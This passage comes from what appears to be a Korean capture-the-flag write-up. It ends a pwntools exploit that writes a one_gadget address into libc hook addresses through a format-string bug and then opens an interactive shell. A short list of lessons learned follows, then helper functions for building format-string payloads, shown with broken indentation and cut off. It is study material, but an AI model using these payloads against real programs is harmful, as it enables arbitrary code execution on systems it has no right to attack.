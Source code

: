 ```python
    log.info("one_gadget::"+hex(one_gadget))
    log.info("one_gadget_low::"+hex(one_gadget_low))
    log.info("one_gadget_mid::"+hex(one_gadget_middle))
    log.info("one_gadget_high::"+hex(one_gadget_high))
    
    low = one_gadget_low
    
    if one_gadget_middle > one_gadget_low:
        middle = one_gadget_middle - one_gadget_low
    else:
        middle = 0x10000 + one_gadget_middle - one_gadget_low
    
    if one_gadget_high > one_gadget_middle:
        high = one_gadget_high - one_gadget_middle
    else:
        high = 0x10000 + one_gadget_high - one_gadget_middle
    
    low=low-14
    middle=middle-3
    high=high-3
    
    payload2 = "%17$ln"+"AA"+"%5c%18$ln"+"A"*7
    payload2 += "%"+str(low)+"c%19$hn"+"A"*3
    payload2 += "%"+str(middle)+"c%20$hn"+"A"*3
    payload2 += "%"+str(high)+"c%21$hn"+"A"*3
    payload2 += p64(libc_base+0x3C5C48)+p64(libc_base+0x3C5C40)
    payload2 += p64(libc_base+0x3C67A8)+p64(libc_base+0x3C67A8+2)+p64(libc_base+0x3C67A8+4)
    pause()
    
    p.sendline(payload2)
    sleep(2)
    p.interactive()
```

<br><br><br>
    

### 4. 몰랐던 개념

---

- exit함수에도 free가 내부에서 호출될수 있었다.
- 다양한 방법의 fsb가 가능함
- 6바이트는 2바이트 씩 $hn으로 쪼개서 넣어줘야함. 그냥 $ln으로 넣으라다가 삽질함
- fsb을 쉽게 사용할 수 있는 함수가 존재 

```python
def fmt(prev , target):
if prev < target:
    result = target - prev
    return "%" + str(result)  + "c"
elif prev == target:
    return ""
else:
    result = 0x10000 + target - prev
    return "%" + str(result) + "c"

def fmt64(offset, addr, value):
payload = ''
prev = 0

if (offset == 6 and value == 0):
    payload += '%7$ln' + 'AAA'
    payload += p64(addr)
    return payload
```
